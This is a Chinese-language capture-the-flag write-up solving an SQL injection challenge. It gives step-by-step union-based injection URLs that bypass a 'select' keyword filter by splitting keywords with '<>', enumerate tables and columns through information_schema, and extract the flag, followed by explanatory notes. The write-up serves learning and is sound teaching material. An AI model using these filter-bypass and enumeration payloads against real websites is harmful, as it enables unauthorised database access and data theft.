









# SQL
## 题目内容
出题人就告诉你这是个注入，有种别走！

## 思路
打开 url ：  
http://0fba26de9e48442a800961de59b7b939daeb3889c02a43cb.changame.ichunqiu.com/index.php?id=1  
如图：  
  

查看源码，发现表名是 info：  
  

考虑直接注入 http://0fba26de9e48442a800961de59b7b939daeb3889c02a43cb.changame.ichunqiu.com/index.php?id=1 union select * from info  
显示：  
  

被发现了！应该是关键词过滤了，并通过尝试，发现，没有过滤 union，过滤的是 select，试图绕过：  
http://0fba26de9e48442a800961de59b7b939daeb3889c02a43cb.changame.ichunqiu.com/index.php?id=1 union sele<>ct * from info  
  

芜湖，只有两行。  
**（有啥用？为啥不能直接显示 flag ？）**  
尝试使用 order by 查看列数，因为 select 出来的列数比较小，直接看两倍是否有东西：  
http://0fba26de9e48442a800961de59b7b939daeb3889c02a43cb.changame.ichunqiu.com/index.php?id=1 ord<>er by 4  
发现没有东西，因为数比较小，且 select 的结果确保至少两列，再尝试 3：  
http://0fba26de9e48442a800961de59b7b939daeb3889c02a43cb.changame.ichunqiu.com/index.php?id=1 ord<>er by 3  
  

有意外收获。然后 select 1,2,3 发现奇怪的东西：  
http://0fba26de9e48442a800961de59b7b939daeb3889c02a43cb.changame.ichunqiu.com/index.php?id=1 union sele<>ct 1,2,3  
  

有点懵，查了一下，需要爆破数据库：  
http://0fba26de9e48442a800961de59b7b939daeb3889c02a43cb.changame.ichunqiu.com/index.php?id=1 union sele<>ct 1,database(),3  
  

发现只有一个数据库，挺好的，继续在这个数据库中爆破表名：  
http://0fba26de9e48442a800961de59b7b939daeb3889c02a43cb.changame.ichunqiu.com/index.php?id=1 union sele<>ct 1,table_name,3 fr<>om information_schema.tables where table_schema=database()  
  

爆破列名：  
http://0fba26de9e48442a800961de59b7b939daeb3889c02a43cb.changame.ichunqiu.com/index.php?id=1 union sele<>ct 1,column_name,3 fr<>om information_schema.columns where table_name='info'  
  

终于出来了，再来爆破 flag 就可以了：  
http://0fba26de9e48442a800961de59b7b939daeb3889c02a43cb.changame.ichunqiu.com/index.php?id=1 union sele<>ct 1,flAg_T5ZNdrm,3 fr<>om  info  
  

## 相关知识  
### 关于 information_schema 以及如何想到用 information_schema 进行爆破  
information_schema数据库是MySQL自带的，它提供了访问数据库元数据的方式。  
什么是元数据呢？元数据是关于数据的数据，如数据库名或表名，列的数据类型，或访问权限等。有些时候用于表述该信息的其他术语包括“数据词典”和“系统目录”。  
在MySQL中，把 information_schema 看作是一个数据库，确切说是信息数据库。  
其中保存着关于MySQL服务器所维护的所有其他数据库的信息。如数据库名，数据库的表，表栏的数据类型与访问权 限等。  
在INFORMATION_SCHEMA中，有数个只读表。它们实际上是视图，而不是基本表，因此，你将无法看到与之相关的任何文件。

### 关于为什么<>可以绕过关键字过滤   
<>在 sql 中表示“不等于”。有可能是为了防止 XSS 漏洞，PHP 在运行的时候把 <> 删除了。  

### 关于一些自带信息
information_schema.columns：表示所有列的信息（在整个 mysql 里面）（information_schema：表示所有信息，包括库、表、列）（information_schema.tables：表示所有表的信息）  
table_schema：数据库的名称  
table_name：表的名称  
column_name：列的名称  
